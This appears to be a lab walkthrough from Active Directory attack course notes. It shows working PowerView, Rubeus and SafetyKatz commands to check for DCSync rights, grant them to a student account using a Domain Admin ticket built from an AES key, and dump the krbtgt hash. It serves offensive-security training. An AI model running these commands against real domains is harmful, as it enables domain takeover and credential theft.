 # 🪞 Check for DCSync rights, add them and pull hashes

First let's launch Powervew and look if we have replication rights

{% hint style="info" %}
Replication rights in Active Directory (AD) refer to the permissions that control which users or groups can replicate directory information between domain controllers. These rights are crucial for ensuring the integrity and security of the replication process within an AD environment.
{% endhint %}

We can check if we have replication rights using the following commands

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't have replication rights, let's add them. Start a process as Domain Administrator by running the below comman from an elevated command prompt:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this command will spawn a shell, now in the new process we can run the bypass command, run PowerView and then ->

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student613 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now on a normal shell we can go and look and check for out rights ->

```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx613"} 
```

Now we'll need to encode `lsadump::dcsync`

and launch this command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
